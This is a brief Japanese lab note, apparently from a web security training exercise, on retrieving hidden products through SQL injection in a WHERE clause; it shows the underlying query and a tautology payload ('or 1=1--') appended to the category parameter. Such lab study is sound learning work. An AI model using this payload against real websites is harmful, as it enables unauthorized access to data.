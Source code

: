## ## WHERE 句の SQL インジェクション脆弱性により、隠しデータの取得
- SQL文
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
ユーザが操作できるのはgiftsの値だけ。

- Payload
```
?category=Gifts
?category=Gifts'%20or%201%3d1--%20
```